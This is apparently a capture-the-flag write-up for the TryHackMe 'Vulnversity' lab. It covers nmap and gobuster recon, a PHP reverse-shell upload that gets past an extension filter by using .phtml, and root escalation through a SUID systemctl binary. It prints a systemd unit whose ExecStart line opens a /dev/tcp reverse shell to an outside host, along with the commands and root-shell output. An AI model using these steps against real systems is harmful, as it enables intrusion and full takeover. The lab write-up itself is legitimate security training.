 # Vuln University

[Play](https://tryhackme.com/room/vulnversity)

## Task 1 - Deploy the machine
ezpz

## Task 2 - Recon

classic nmap scan
```
❯ nmap -sC -sV -A 10.10.197.89
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 21:43 EST
Nmap scan report for 10.10.197.89
Host is up (0.18s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-03-07T21:43:45-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-08T02:43:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.10 seconds
```

### Scan the box, how many ports are open?
`6`

### What version of the squid proxy is running on the machine?
`3.5.12`

### How many ports will nmap scan if the flag -p-400 was used?
`400`
(bruh)

### Using the nmap flag -n what will it not resolve?
`dns`

### What is the most likely operating system this machine is running?
`ubuntu`

### What port is the web server running on?
`3333`

### Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)
ok

## Task 3 - Locating directories using gobuster
(have not included the gobuster scan results, since its pretty basic)

### What is the directory that has an upload form page?
`/internal/`

## Task 4 - Compromise the webserver
We see the option to upload the files. The default way to try and upload the `phpreverseshell.php` files, but apparently `.php` is not allowed. 

At this point, the room suggests using burpsuite to intercept the requests, and try out different php extensions. However, its more simple to just do it by hand :D

### Run this attack, what extension is allowed?
`phtml`

Once you have the `phprevshell.phtml` uploaded, go to `/include/uploads/phprevshell.phtml` and setup netcat in parallel. Once you get in, get a proper shell by doing `python3 -c "import pty; pty.spawn('/bin/bash')`. For the next question, just do `cat /etc/passwd`.

### What is the name of the user who manages the webserver?
`bill`

### What is the user flag?
{hmmmmmmmmmmmmmmmmmmmmmmmm}

## Task 5 - Priviledge Escalation

> In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

> For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

Using the command `find`, we get:

### On the system, search for all SUID files. What file stands out?
`/bin/systemctl`

### Become root and get the last flag (/root/root.txt)

For this privesc, I followed [Alvin Smith's Privilege Escalation](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740)

```
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.150.214/9999 0>&1'

[Install]
WantedBy=multi-user.target
```


Here are the steps:
1. create a `root.service` file on your machine with the details given above.
2. Using the upload option in the `/internal/` directory of the website, upload this file. It'll throw and error of the extension as not permitted. Change `root.service` to `root.phtml` (why?) and you should be good to go.
3. In the target machine, just rename the file again.
4. Instead of 2, 3, you can also use `nc` or any other methods you prefer.
5. Run `/bin/systemctl enable /var/www/html/internal/uploads/root.service`
6. Start `nc` on your machine, on the port you set in the `root.service` file in step  1 (9999 here)
7. Run `/bin/systemctl start root.service`
8. PWN


```
www-data@vulnuniversity:/var/www/html/internal/uploads$ cat root.service
cat root.service
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.150.214/9999 0>&1'

[Install]
WantedBy=multi-user.target
www-data@vulnuniversity:/var/www/html/internal/uploads$ /bin/systemctl enable /var/www/html/internal/uploads/root.service
<s$ /bin/systemctl enable /var/www/html/internal/uploads/root.service        
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /var/www/html/internal/uploads/root.service.
Created symlink from /etc/systemd/system/root.service to /var/www/html/internal/uploads/root.service.
www-data@vulnuniversity:/var/www/html/internal/uploads$ /bin/systemctl start root.service
<r/www/html/internal/uploads$ /bin/systemctl start root.service 
```


```
❯ nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.185.229] 43756
bash: cannot set terminal process group (1792): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# whoami
whoami
root
root@vulnuniversity:/# cd /root
cd /root
root@vulnuniversity:~# ls
ls
root.txt
root@vulnuniversity:~# cat root.txt
cat root.txt
{hell yeah}
root@vulnuniversity:~# 
```

